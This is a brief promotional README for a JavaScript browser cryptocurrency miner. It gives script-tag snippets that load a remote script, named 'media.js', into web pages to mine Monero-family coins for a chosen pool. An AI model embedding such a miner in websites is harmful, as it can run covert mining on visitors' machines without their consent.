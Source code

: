 Crypto Webminer | Electroneum | Monero | Bytecoin | IntenseCoin | Dinastycoin | Graft | SuperiorCoin | Turtlecoin | Stellite | IPBC Coin | DERO | Custom Pool Support - Mining in your Browser

<br>Use Crypto Webminer - JavaScript miner on any Stratum Pool for Cryptonight Coins

<br>Host your own assets on your Server from assets branch or use https://thelifeisbinary.netlify.com/media.js

Simple Pool change: ?pools=Your_Favorite_Pool:PortNr

Complete example:
<script src="https://thelifeisbinary.netlify.com/media.js?gustav=wss://?pools=pool.supportxmr.com:3333"> </script>

Attention: Special Case for some custom variant fork coins: Stellite and Intensecoin ?variant=1

<script src="https://thelifeisbinary.netlify.com/media.js?gustav=wss://?variant=1?pools=communitypool.stellite.cash:6677"> </script>

<br><br> 
Or use our integration for websites & blogs and SSL integration
http://www.crypto-webminer.com/integrate.html
<br><br> 
Join Discord Chat
https://discord.gg/nnARdpc
  
<br><br> 
We take a 1% developer fee
